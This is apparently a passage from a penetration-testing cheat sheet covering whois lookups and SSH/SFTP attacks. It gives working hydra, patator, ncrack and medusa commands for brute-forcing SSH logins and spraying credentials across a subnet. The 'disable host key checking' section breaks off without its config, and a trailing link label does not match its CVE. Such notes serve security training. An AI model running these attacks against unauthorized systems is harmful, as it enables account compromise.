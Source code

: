 
## 3.8. Whois

Perform `whois` lookups to get information about a domain name, such as the name server and registrar.

```sh
whois megacorpone.com

# optionally specify server to use for whois lookup
whois megacorpone.com -h $WHOIS_SERVER

# perform a reverse lookup
whois 38.100.193.70
```


# 4. Services

This section includes enumeration, exploitation, and interaction techniques for common services you might discover through scanning.

## 4.1. 22 - SSH/SFTP

Secure Shell (SSH) and Secure File Transfer Protocol (SFTP).

For extremely old versions, check `searchsploit` for vulns. Otherwise, brute-force and user enumeration are usually all you get out of it.

Check [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh) for executing commands with misconfigured SFTP user.

### 4.1.1. SSH Bruteforcing

```sh
# using hydra
# '-s PORT' contact service on non-default port
hydra -V -f -l username -P wordlist.txt -s 2222 $VICTIM_IP ssh

# spray creds to entire subnet to see if they work on other boxes, too!
hydra -V -f -l username -p password -W 5 10.11.1.0/24 ssh

# using patator: useful when services (e.g. ssh) are too old for hydra to work
patator ssh_login host=$VICTIM_IP port=2222 persistent=0 -x ignore:fgrep='failed' user=username password=FILE0 0=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt

ncrack -p 22 --user root -P passwords.txt $VICTIM_IP [-T 5]
medusa -u root -P 500-worst-passwords.txt -h $VICTIM_IP -M ssh
```

### 4.1.2. Disable SSH Host Key Checking

Put this at the top of your `~/.ssh/config` to disable it for all hosts:


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744